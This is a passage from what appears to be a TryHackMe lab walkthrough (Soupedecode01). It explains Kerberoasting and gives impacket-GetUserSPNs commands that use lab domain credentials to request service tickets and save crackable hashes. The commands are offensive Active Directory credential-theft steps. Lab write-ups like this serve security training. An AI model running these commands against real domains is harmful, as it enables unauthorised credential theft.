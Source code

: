 
## Root Flag

### <a href="https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/kerberoasting/" target="_blank">Kerberoasting</a>

You can check here About <a href="https://adsecurity.org/?p=2293" target="_blank">Cracking Kerberos TGS Tickets</a> & <a href="https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names" target="_blank">SPN</a> & <a href="https://www.vaadata.com/blog/what-is-kerberos-kerberos-authentication-explained/" target="_blank">Kerberos Authentication</a>

Since we have a valid domain credentials, we check for `Kerberoastable` accounts using `GetUserSPNs`

so we request a Kerberos service ticket for one or more of these identified accounts from the ticket granting service `TGS` from `SPN` using `GetUserSPNs`

```sh
impacket-GetUserSPNs 'SOUPEDECODE.LOCAL/ybob317:ybob317' -request -usersfile rids.txt -dc-ip SOUPEDECODE.LOCAL -outputfile hashes-kerberoastables.txt
```
{: .wrap }

OR the best use this

```sh
impacket-GetUserSPNs 'SOUPEDECODE.LOCAL/ybob317:ybob317' -request -dc-ip SOUPEDECODE.LOCAL -outputfile hashes-kerberoastables.txt
```
{: .wrap }

![](/images/TryHackMe/Soupedecode01/GetUserSPNs.png)

---